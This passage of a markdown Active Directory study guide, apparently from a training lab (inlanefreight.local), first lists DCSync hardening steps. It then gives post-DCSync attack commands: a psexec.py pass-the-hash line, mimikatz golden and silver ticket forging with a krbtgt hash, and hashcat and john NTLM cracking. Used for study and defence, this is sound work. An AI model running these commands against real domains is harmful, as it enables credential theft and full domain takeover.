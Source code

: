 #### **2. Disable Reversible Encryption**
```powershell
# Find and disable reversible encryption
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl | ForEach-Object {
    Set-ADUser $_ -AllowReversiblePasswordEncryption $false
    Write-Host "Disabled reversible encryption for: $($_.SamAccountName)"
}
```

#### **3. Implement Advanced Monitoring**
```powershell
# Deploy advanced monitoring for DCSync
# 1. Network monitoring for DRSR traffic
# 2. Behavioral analysis for unusual replication requests
# 3. Privileged account monitoring
# 4. Regular ACL audits with BloodHound
```

#### **4. Privileged Account Management**
```powershell
# Implement Just-In-Time (JIT) access for administrative accounts
# Use Privileged Identity Management (PIM)
# Regular rotation of high-privilege account passwords
# Multi-factor authentication for administrative access
```

---

## 🚀 **Post-DCSync Attack Paths**

### **Immediate Actions After DCSync**

#### **1. Pass-the-Hash Attacks**
```bash
# Use extracted administrator hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf administrator@172.16.5.5
```

#### **2. Golden Ticket Creation**
```
mimikatz # kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-3842939050-3880317879-2865463114 /krbtgt:16e26ba33e455a8c338142af8d89ffbc /user:fakeadmin /ptt
```

#### **3. Silver Ticket Attacks**
```
mimikatz # kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-3842939050-3880317879-2865463114 /target:dc01.inlanefreight.local /service:cifs /rc4:MACHINE_ACCOUNT_HASH /user:fakeuser /ptt
```

#### **4. Password Cracking Analysis**
```bash
# Crack extracted hashes for password policy analysis
hashcat -m 1000 -w 3 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt

# Analyze password patterns
john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ntlm_hashes.txt
```
